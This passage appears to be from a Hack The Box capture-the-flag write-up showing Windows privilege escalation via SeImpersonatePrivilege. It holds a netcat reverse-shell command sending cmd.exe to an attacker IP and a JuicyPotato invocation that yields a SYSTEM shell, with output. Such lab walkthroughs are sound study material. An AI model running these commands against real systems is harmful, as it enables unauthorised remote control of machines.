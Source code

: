 ```bash
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

**Here we see `SeImpersonatePrivilege` is enabled. We need to do Token Impersonation attack.**

We can use JuicyPotato for Token Impersonation attack from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges)

First I downloaded [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases) to my machine.

We need to get a normal shell instead of PowerShell. Get nc.exe [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Upload it to the box and get revere shell.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%208.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%208.png)

I created a bat file that executes nc and give me shell.

```bash
C:\TEMP>echo C:\TEMP\nc.exe -e cmd.exe 10.10.14.9 1232 > rev.bat
echo C:\TEMP\nc.exe -e cmd.exe 10.10.14.9 1232 > rev.bat
```

Then I ran `JuicyPotato` and it executes `bat` file

```bash
C:\TEMP>juicypotato.exe -p C:\TEMP\rev.bat -l 1232 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
juicypotato.exe -p C:\TEMP\rev.bat -l 1232 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1232
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\TEMP>
```

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%209.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%209.png)

We own the system